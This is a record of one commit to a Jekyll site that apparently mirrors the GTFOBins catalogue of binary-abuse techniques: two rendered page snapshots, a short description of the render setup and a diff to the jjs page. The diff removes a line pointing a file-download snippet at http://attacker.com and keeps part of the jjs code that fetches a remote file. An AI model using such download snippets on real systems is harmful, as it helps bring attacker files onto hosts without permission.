

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/jjs.md, in a window 1280 px wide, cut to the strip 339-747 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update jjs.md

```diff
--- a/_gtfoud/jjs.md
+++ b/_gtfoud/jjs.md
@@ -4,8 +4,6 @@ functions:
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
         echo "var URL = Java.type('java.net.URL');
         var ws = new URL('$URL');
         var Channels = Java.type('java.nio.channels.Channels');
```
